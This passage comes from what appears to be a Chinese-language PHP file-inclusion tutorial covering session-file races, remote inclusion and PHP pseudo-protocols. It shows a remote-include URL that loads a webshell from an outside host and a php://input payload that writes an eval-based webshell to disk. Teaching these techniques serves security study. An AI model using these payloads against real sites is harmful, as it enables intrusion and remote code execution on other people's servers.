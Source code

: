 
> 
再根据代码抓一个get的包，请求/tmp/sess_flag


> 
同时进行爆破，payload设置成null payloads就可以一直爆破


### 远程包含

> 
利用前提：



#### 无任何限制

> 
代码没有任何限制，直接在公网上存放恶意webshell即可，然后通过包含即可执行恶意payload<br/> `?filename=http://xxxx/php.txt`


#### 限制包含文件的后缀名

> 
例如：`&lt;?php include($_GET['filename'] . ".no"); ?&gt;`


> 



## PHP伪协议

> 
简单理解便是PHP自己提供的一套协议，可以适用于自己的语言，其他语言则不适用，这便是伪协议，与之相对的例如HTTP\HTTPS便不是伪协议，因为大部分系统\软件都能够进行识别


### 常见的伪协议

> 
可以看下之间[详解PHP伪协议](https://blog.csdn.net/LYJ20010728/article/details/110312276)的内容<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210527211634446.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> 如果遇到的环境有写入权限，可以使用php://input伪协议来写入木马


```
POST DATA
&lt;?php fputs(fopen('H3rmesk1t.php','w'),'&lt;?php @eval($_GET[cmd]); ?&gt;'); ?&gt;

```

### php://filter各种过滤器

> 
php://filter是一种元封装器，设计用来数据流打开时筛选过滤应用，详见[官方文档](https://www.php.net/manual/zh/wrappers.php.php)


> 
对于php://来说，是支持多种过滤器嵌套的，格式如下：

